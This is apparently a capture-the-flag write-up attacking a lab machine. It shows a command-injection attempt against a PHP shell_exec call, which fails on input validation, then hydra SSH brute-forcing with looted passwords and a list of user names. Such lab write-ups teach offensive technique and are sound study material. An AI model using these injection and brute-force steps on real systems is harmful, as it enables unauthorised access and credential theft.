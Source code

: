 Trying `admin_tasks.php` first:

```sh
# try to grab shadow file
❯ curl -s 'http://10.10.10.187/utility-scripts/admin_tasks.php?task=5'
#  Insufficient privileges to perform the selected operation.<br />
```

Bummer.

Looking closer at `admin_tasks.php` source I notice this line, which looks exceptionally vulnerable:

```php
echo str_replace("\n", "<br />", shell_exec("/opt/scripts/admin_tasks.sh $task 2>&1"));
```

They are literally calling `shell_exec` for me! I just have to escape the bash command line. Easy-peasy.

Trying it:

```sh
❯ alias urlencode                                                                             
# urlencode='python3 -c '\''import sys,os,urllib.parse as url;s=" ".join(sys.argv[1:]) if len(sys.argv)>1 else sys.stdin.read().encode();print(url.quote_plus(os.fsencode(s)))'\'

❯ curl -vs "http://10.10.10.187/utility-scripts/admin_tasks.php?task=5$(urlencode ';id #')"
#  Invalid task.
```

Bummer, not so easy-peasy after all... I failed to notice the fact that they check the `$task` variable to be one of the values [1-7].

Now to try brute-forcing more creds:

```sh
❯ cat passwords.txt                                         
Ezy]m27}OREc$
Wh3r3_1s_w4ld0?
]F7jLHw:*G>UPrTo}~A"d6b
w0rdpr3ss01!
%n?4Wz}R$tTF7
fgJr6q#S\W:$P

❯ hydra -V -f -l waldo -P passwords.txt ssh://10.10.10.187
# nope

❯ cat scans/users.txt
p.wise
pwise
r.nayyar
rnayyar
a.bialik
abialik
l.galecki
lgalecki
h.helberg
hhelberg
b.rauch
brauch
waldo
waldo.11
w.cooper
wcooper

❯ hydra -V -f -L scans/users.txt -P loot/passwords.txt ssh://10.10.10.187
# still no
```
